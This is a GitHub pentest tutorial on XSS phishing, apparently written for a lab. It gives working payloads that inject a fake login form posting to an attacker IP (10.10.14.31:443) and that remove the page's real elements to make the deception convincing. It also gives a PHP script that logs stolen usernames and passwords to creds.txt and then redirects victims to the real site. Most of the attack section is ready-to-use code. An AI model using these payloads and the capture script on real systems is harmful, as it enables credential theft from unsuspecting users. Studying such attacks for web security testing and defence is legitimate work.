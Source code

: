 # XSS Phishing attack.
## Attack Overview
Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker.</br>
A common form of XSS phishing attack is through _injecting fake login forms that send the login details to the attacker's server_, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.
Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. 
This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.<br />
__This time our target is:__<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/afc0a1f6-4b50-4f66-bb5a-db7207a3ad04" width="350"><br />
__After injecting our payload:__<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/8e956fb4-ee2a-4678-a574-bfd36b76e41f" width="350">

## Login Form Injection
This is a simple login form that we can inject.
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

After we have found the correct payload, we can try to load the login form. We have to minify our HTML login and add it to our payload.          
__Result (minified html code + XSS payload):__
```html
<script>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>')</script>
```
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/390f7bb2-f462-4396-a6b9-86b9fcf94292
" width="350">

### Making it more realistic.
As we saw in the last picture, we can still see the original web functionality. We must delete it to make our attack more realistic. We can delete part of the code that is being shown after our injection too, to do so, we only need to add a JavaScript comment after the payload `<!--`.

#### Removing Elements
For removing Elements we can use `document.getElementById()` function + `.remove()`.
- Obtaining the id of the element we want to remove:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/c9e4c784-205a-4c97-8d66-641d5622e3b6" width="700"><br />
- Adding it to our payload:
</br>

```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.31:443><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/c2040539-1a58-40c2-97d8-3dafc6a6535f" width="500">

## Executing the attack.
We can create a script to capture and write the credentials we obtain into a file. Additionally, we will create a redirection to the original web page within the same script. This way, the target will be redirected back to the original website, making our attack even more realistic.

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+"); #ESCRIBIENDO LAS CREDENCIALES EN UN ARCHIVO CREDS.TXT
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php"); #REDIRECCIÓN A UNA WEB LEGÍTIMA.
    fclose($file);
    exit();
}
?>
```
Once everything is ready we can send the phishing attack to our victim and just wait listening on the selected port of our payload.
![12](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/73ef1459-0d21-4a31-a150-f1e99496f839)

![13](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/ad3763e1-2ee6-447c-a831-680f03f5a8e2)







